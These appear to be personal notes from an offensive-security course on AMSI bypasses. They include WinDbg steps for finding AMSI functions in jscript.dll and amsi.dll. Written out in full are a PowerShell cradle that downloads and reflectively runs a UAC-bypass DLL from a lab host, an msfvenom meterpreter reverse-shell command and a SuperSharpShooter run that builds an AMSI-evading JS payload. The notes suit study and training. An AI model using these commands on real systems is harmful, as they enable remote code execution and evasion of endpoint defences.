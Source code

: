 ```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.45.x/UACBypass.dll')
$assem = [System.Reflection.Assembly]::Load($data)
$class = $assem.GetType("UACBypass.Class1")
$method = $class.GetMethod("runner")
$method.Invoke(0, $null)
```


#### 7.6.2 Is That Your Registry Key

- In Windbg on current Win10 `bu jscript!JAmsi::JAmsiIsEnabledByRegistry` doesn't seem to exist
	- In Windbg load Wmscript.exe and a malicious js file
	- set breakpoint `bu jscript!JAmsi::JAmsiIsEnabledByRegistry`
	- continue to breakpoing `g`
	- throws error
	- look in jscript.dll using `lmDvmjscript`
	- find functions in jscript.dll  that are like jscript!j* using `x /D /f jscript!jA*`
	
![](Images/WindbgSearchingForJscriptAMSI.png)

On Win 10 build 17763 (Offsec lab):
![](Images/WindbgWin10B17763JscriptAmsi.png)
- this appears to show that JAsmiIsEnabledByRegistry is no longer a function in the jscript.dll

#### Windbg with wscript.exe and a malicious .js

- Start debugging session
- `bu amsi!AmsiScanBuffer`

![First hit of AmsiScanBuffer in Windbg](Images/WscriptJsAmsiScanBufferHit.png)
- look at the next 20 instructions `u rip L20`

![Next 20 Instructions](Images/WindbgAmsiScanBufferNext20Instructions.png)


### Exercise 7.6.2.3

- Experiment with SharpShooter to generate the same type of payload with an AMSI bypass.

- Generate raw shell code
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.45.210 LPORT=9001 EXITFUNCTION=thread -f raw -o offsec-shell.txt
```

```bash
./SuperSharpShooter.py --stageless --dotnetver 4 --rawscfile offsec-shell.txt --payload js --output ch07-offsec-test --amsi amsienable


             _____ __                    _____ __                __
            / ___// /_  ____ __________ / ___// /_  ____  ____  / /____  _____
            \__ \/ __ \/ __ `/ ___/ __ \\__ \/ __ \/ __ \/ __ \/ __/ _ \/ ___/
           ___/ / / / / /_/ / /  / /_/ /__/ / / / / /_/ / /_/ / /_/  __/ /
     SUPER/____/_/ /_/\__,_/_/  / .___/____/_/ /_/\____/\____/\__/\___/_/
                              /_/

     Dominic Chell, @domchell, MDSec ActiveBreach, v2.0
     SYANiDE, v3.1 Clinical Precision 

[*] Preview:  var entry_class = 'Shar'+'p'+'S'+'h'+'oot'+'er';
[*] Written delivery payload to output/ch07-offsec-test.js

```
- upload and run
